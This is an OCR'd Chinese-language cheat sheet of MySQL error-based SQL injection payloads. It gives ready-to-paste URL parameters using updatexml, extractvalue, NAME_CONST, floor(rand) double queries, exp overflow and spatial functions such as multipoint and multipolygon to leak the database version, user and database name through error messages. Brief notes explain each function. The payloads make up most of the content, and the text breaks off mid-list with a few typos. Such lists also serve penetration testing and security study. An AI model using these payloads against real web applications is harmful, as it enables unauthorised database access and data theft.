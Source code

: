 **注入语句**

**`?id=1 and updatexml(1,concat(0x7e,(select @@version),0x7e),1)`**

**注入原理**

**`updatexml(XML_document,XPath_string,new_value);`**

- **第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc**
- **第二个参数：XPath_string(Xpath 格式的字符串)**
- **第三个参数：new_value，String格式，替换查找到的符合条件的数据**
- **作用：改变文档中符合条件的节点的值**

**返回结果为连接参数产生的字符串。如果任何一个参数为`NULL`，则返回值为`NULL`**

**通过查询`@@version`，返回版本。然后`CONCAT`将其字符串化，因为`UPDATEXML`第二个参数需要`Xpath`格式的字符串，所以不符合要求，然后报错。**

**ExtractValue(有长度限制，最长32位)**

**注入语句**

**`?id=1 and extractvalue(1,concat(0x7e,(select @@version),0x7e))`**

**注入原理**

**`extractvalue(XML_document,XPath_string);`**

- **第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc**
- **第二个参数：XPath_string(Xpath 格式的字符串)**
- **作用：从目标XML中返回包含所查询值的字符串**

**第二个参数都要求是符合`xpath`语法的字符串，如果不满足要求，则会报错，并且将查询结果放在报错信息里**

**NAME_CONST(适用于低版本，不太好用)**

**`?id=261 and 1=(select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)`**

**Error based Double Query Injection**

**`?id=1 or group by concat_ws(0x7e,version(),floor(rand(0)*2)) having min(0) or 1`**

**exp(5.5.5以上)**

**在mysql 5.5之前，整型溢出是不会报错的，根据官方文档说明 `out-of-range-and-overflow`，只有版本号大于5.5.5时，才会报错。利用 `exp`函数也产生类似的溢出错误**

**`?id=1 and (select exp(~(select * from (select user())x)))`**

**测试未通过，存在可用性的**

**`emetryCollection() multipoint() polygon() multipolygon() linestring() multilinestring()`**

**以上函数均为mysql中的空间数据类型(存储)的函数，目前仅在MylSAM数据引擎下提供空间索引支持，要求几何字段非空**

**`multipoint()`**

**`?id=1 or multipoint((select * from (select * from (select user())a)b))%23`**

**`multipolygon()`**

**`?id=1 or multipolygon((select * from (select * from (select database())a)b))%23`**

**`multilinestring()`**
